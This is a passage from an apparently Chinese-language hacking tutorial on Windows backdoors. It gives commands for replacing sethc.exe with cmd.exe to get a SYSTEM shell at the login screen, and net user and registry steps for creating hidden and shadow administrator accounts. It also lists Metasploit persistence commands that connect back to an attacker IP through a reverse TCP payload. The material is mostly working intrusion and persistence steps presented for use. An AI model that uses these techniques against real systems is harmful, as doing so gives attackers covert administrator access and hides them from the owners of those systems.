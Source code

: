 - 在登陆界面的时候我们连续按下5次shift键系统以system权限就会运行我们的CMD.exe

- 那么我们的cmd.exe就具有了管理员权限了 如此一来 我们只要利用CMD加一个管理员用户就可以登陆进去，实现隐藏后门

命令：

```
copy c:\windows\system32\cmd.exe c:\windows\system32\dllcache\sethc.exe  
copy c:\windows\system32\dllcache\sethc.exe c:\windows\system32\sethc.exe
```

#### 2.2 Windows 隐藏账户

账号后门
net user admin admin /add  //容易暴露

隐藏后门：通过命令net user看不见创建的用户。通过计算机管理——用户和用户组可以看见
net user `admin$` admin /add

**通过注册表隐藏**

打开注册表。运行regedit，找到`HKEY_LOCAL_MACHINE\SAM\SAM`键，会发现下面的内容为空。只是我们的权限不够。需要手工设置更改注册表权限。

单击sam下的sam右键进行权限设置。在弹出的“SAM的权限”编辑窗口中选中“administrators”账户，在下方的权限设置处勾选“完全控制”，完成后点击“确设置完权限F5刷新即可看到内容。可以发现“HKEY_LOCAL_MACHINESAMSAM”下面的键值都可以展开了，依次展开users和names注册表项

选中右键将新建的用户对应的项导出注册表reg

在命令行或计算机管理中删除新建的用户，此时新建用户已经消失，不存在了

最后将导出的用户注册表信息，双击运行导入，修改注册表的权限，是其他账户不能修改注册表，则账户彻底隐藏了

还有一种方法实现windows账户隐藏。也有叫做影子账户

​	1、创建新的账户时，不需要将新帐户加入到管理员组。

​	2、在注册表中导出账户信息时前，操作将administrator账户对应的帐户类型中的‘F’注册表项中的值复制并覆盖新建账户对应的帐户类型中‘F’注册表项中的值。

​	3、现在导出新建账户的注册表信息，命令行或计算机管理中删除新建的账户。

​	4、将导出的新建账户的注册表信息，重新导入注册表。

​	5、则新建的账户被隐藏且具有管理员权限和管理员桌面等设置相同的信息

#### 2.3 persistence后门

Persistence是一款使用安装自启动方式的持久性后门程序，可以利用它创建注册和文件

前提：在meterpreter上使用

```
run persistence -A -X -i 60 -p 4321 -r 攻击者ip
run persistence -U -i 5 -p 443 -r 攻击者ip
```

参数解释：

-A  自动启动一个匹配的payload程序

-L  如果未使用％TEMP％，则在目标主机中写入有效负载的位置。

-P  有效负载使用，默认为windows/meterpreter/reverse_tcp。
